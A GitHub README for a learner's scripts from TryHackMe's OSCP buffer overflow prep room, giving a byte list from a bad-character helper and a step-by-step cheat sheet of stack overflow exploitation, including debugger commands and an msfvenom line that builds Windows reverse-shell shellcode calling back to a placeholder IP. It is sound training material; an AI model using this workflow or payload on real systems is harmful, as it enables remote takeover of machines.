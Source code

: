 # TryHackMe_OSCP_BufferOverFlow_Prep

This repo is for two python files used to complete the OSCP BufferOverFlowPrep room from TryHackMe.com

I used the provided script's from THM for the first 4 levels of the room.

I then coded myfuzz.py and myexp.py on my own and for practice.

I also made a quick script, badchars.py to generate string that removes bad characters.

## Example of badchars.py when submitting \x00\x01\x02 as bad chars

notice the output starts at \x03 skipping over the bad chars

    python3 badchars.py

    Enter badchars, example \x00\xae\x24: \x00\x01\x02

    \x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f
    \x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c
    \x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29
    \x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36
    \x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43
    \x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50
    \x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d
    \x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a
    \x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77
    \x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84
    \x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91
    \x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e
    \x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab
    \xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8
    \xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5
    \xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2
    \xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf
    \xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec
    \xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9
    \xfa\xfb\xfc\xfd\xfe\xff


## Cheat Sheet Steps for BOF exploitation

- config mona in Immunity Debugger
  - !mona config -set workingfolder c:\mona\%p
- fuzz to find crash point with myfuzz.py
- generate pattern to find EIP offset
  - /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l (fuzzing break point)
- put character pattern "payload" in myexp.py
- find eip offset
  - !mona findmsp -distance (fuzzing break point)
- add offset to myexp.py and RETN with "BBBB" eip should have "42424242" to verify we've overwritten EIP
- check bad chars
  - create char list for mona !mona bytearray -b "\x00"
  - create local list with badchars.py
  - put badchars.py output in myexp.py payload then run
- check bad chars in mona with esp address 
  - !mona compare -f C:\mona\oscp\bytearray.bin -a (ESP Address)
- find jmp esp - !mona jmp -r esp -cpb "(found bad chars)"
- generate shell code with msfvenom msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "\x00" -f c
- Add NOP sled to prepend in myexp.py 
  - prepend = "\x90" * 16 in myexp.py
- Start Netcat Listener for port usesd in msfvenom
- Send the exploit by running myexp.py one last time and catch the shell.
